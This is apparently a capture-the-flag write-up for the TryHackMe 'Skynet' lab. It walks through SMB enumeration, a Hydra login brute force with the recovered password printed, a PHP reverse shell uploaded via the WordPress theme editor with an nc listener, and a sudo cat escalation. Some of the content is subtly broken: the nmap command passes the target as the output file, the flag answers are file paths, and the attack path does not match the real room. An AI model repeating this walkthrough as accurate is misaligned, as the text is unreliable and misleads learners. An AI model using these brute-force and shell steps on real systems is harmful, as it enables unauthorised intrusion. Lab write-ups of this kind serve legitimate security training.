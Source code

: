 # Skynet | TryHackMe

## Overview
- **Room:** Skynet  
- **Difficulty:** Easy 
- **Tags:** SMB, WordPress, RCE, PrivEsc  

---

## Enumeration

### Nmap
```bash
sudo nmap -sC -sV -oN <IP>
```

**Open Ports:**
- 22/tcp - SSH  
- 80/tcp - HTTP (WordPress site)  
- 110/tcp - POP3  
- 139/tcp - NetBIOS-SSN  
- 445/tcp - SMB  

---

### SMB Enumeration
```bash
smbclient -N -L //<IP>
enum4linux -a <IP>
```
Found share: **anonymous**  

```bash
smbclient //<IP>/anonymous
```
Downloaded files from the share. One contained potential usernames.  

---

### Web Enumeration (Port 80)
Checked `http://<IP>/` → WordPress site.  

Ran gobuster:  
```bash
gobuster dir -u http://<IP>/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt
```
Found `/squirrelmail`.  

---

### SquirrelMail
Accessed `http://<IP>/squirrelmail`  
Tried default creds → no success.  

Used obtained usernames with Hydra:  
```bash
hydra -L users.txt -P /usr/share/wordlists/rockyou.txt <IP> http-post-form "/squirrelmail/src/redirect.php:login_username=^USER^&secretkey=^PASS^:Unknown user or password incorrect"
```
**Result:** Login for `milesdyson : cyborg007haloterminator`  

---

## Exploitation

Logged into SquirrelMail → found an email containing credentials for WordPress.  

```bash
wp-login.php → milesdyson : <password>
```

After login, able to upload a PHP reverse shell via **Theme Editor**.  

```bash
nc -lvnp 4444
```
Got reverse shell as `www-data`.  

---

## Privilege Escalation

Ran `linpeas.sh`:  
- Found **/home/milesdyson/backups/important.txt** containing password.  
- Switched user:  
```bash
su milesdyson
```

Checked sudo rights:  
```bash
sudo -l
```
`/bin/cat` allowed as root.  

```bash
sudo cat /root/root.txt
```
✅ Got root flag.  

---

## Flags
- **User.txt** → `/home/milesdyson/user.txt`  
- **Root.txt** → `/root/root.txt`  

---

## Answers to Room Questions
1. **What port is SMB running on?** → `445`  
2. **What is the name of the SMB share?** → `anonymous`  
3. **What credentials were found for Miles Dyson?** → `cyborg007haloterminator`  
4. **What service was exploited for initial access?** → `WordPress`  
5. **What is the user flag?** → `/home/milesdyson/user.txt`  
6. **What is the root flag?** → `/root/root.txt`  

---

## Lessons Learned
- SMB shares often leak sensitive files.  
- SquirrelMail can be an entry point when weak creds are used.  
- WordPress admin panel → reverse shell is a common vector.  
- Sudo misconfigurations (cat) can directly expose root files.  

